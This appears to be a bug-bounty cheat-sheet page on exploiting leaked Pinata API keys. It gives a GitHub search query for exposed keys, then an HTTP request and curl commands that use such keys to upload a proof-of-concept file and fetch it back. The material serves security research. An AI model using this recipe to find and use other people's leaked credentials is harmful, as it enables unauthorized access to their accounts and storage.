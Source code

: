 ```yaml
---
description: >-
  Pinata is a cloud service for keeping your NFT. This plugin makes NFT file
  storage easy for everyone. You can upload and pin images or videos, 3D files,
  or even an app on Pinata. All of Pinata's conte
---
```


# Pinata key

## Search

Github search

```
pinata_api_key AND pinata_api_secret 
```

## Exploit

That apikey use for upload file

#### Http requests

```
POST /pinning/pinFileToIPFS HTTP/1.1
Host: api.pinata.cloud
Pinata_api_key: <your_api_key>
Pinata_secret_api_key: <your_secret_api_key>
Accept: */*
Content-Type: multipart/form-data; boundary=------------------------d74496d66958873e
Content-Length: 258

--------------------------d74496d66958873e
Content-Disposition: form-data; name="file"; filename="bc_poc.txt"
Content-Type: text/plain

Uploded By Bugcrowd Researcher
--------------------------d74496d66958873e--
```

#### Curl requests

```
curl -X POST "https://api.pinata.cloud/pinning/pinFileToIPFS" \
     -H "pinata_api_key: <your_api_key>" \
     -H "pinata_secret_api_key: <your_secret_api_key>" \
     -F file=@/home/user/poc.txt
```

```
response is
{
  IpfsHash: "****",
  ..
}
```

Get file



```
curl "https://${GATEWAY}/ipfs/$IpfsHash"
{GATEWAY} = Search for .mypinata.cloud in same endpoint response.
```
